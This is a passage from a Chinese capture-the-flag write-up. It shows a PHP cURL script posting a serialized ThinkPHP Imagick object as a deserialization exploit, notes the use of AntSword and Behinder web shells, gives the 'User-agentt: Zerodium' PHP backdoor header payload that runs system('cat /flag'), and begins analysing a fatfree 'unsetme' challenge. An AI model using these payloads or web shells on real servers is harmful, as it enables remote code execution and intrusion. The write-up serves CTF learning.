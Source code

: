 ```php


    $curl = curl_init();
    curl_setopt_array($curl, array(
        CURLOPT_URL => "url",
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_ENCODING => "",
        CURLOPT_MAXREDIRS => 10,
        CURLOPT_TIMEOUT => 30,
        CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
        CURLOPT_CUSTOMREQUEST => "POST",
        CURLOPT_POSTFIELDS => base64_encode(serialize(new Think\Image\Driver\Imagick())),
        CURLOPT_HTTPHEADER => array(
            "Postman-Token: 348e180e-5893-4ab4-b1d4-f570d69f228e",
            "cache-control: no-cache"
        ),
    ));
    $response = curl_exec($curl);
    $err = curl_error($curl);
    curl_close($curl);
    if ($err) {
        echo "cURL Error #:" . $err;
    } else {
        echo $response;
    }
}
```
上去后在根目录发现flag应该是藏在数据库里，不知道是不是蚁剑的原因，数据库一直连不上，后来传了一个冰蝎才连接好，结果flag还是读取不了，导出flag表然后又可以把flag给导出来了？

## 0x04 虎符

### 签到
给了提示，前不久爆的php后门
```demo
User-agentt:Zerodiumsystem('cat /flag');
```
### unsetme
搜了一下是`fatfree`框架，上github把源码下了下来，把index.php换成题目。
```php
<?php
// Kickstart the framework
$f3=require('lib/base.php');

$f3->set('DEBUG',1);
if ((float)PCRE_VERSION<8.0)
    trigger_error('PCRE version is out of date');

// Load configuration
highlight_file(__FILE__);
$a=$_GET['a'];
unset($f3->$a);

$f3->run(); 
```
运行发现`base.php`中的一个`eval()`函数有报错，我们跟进看一下。
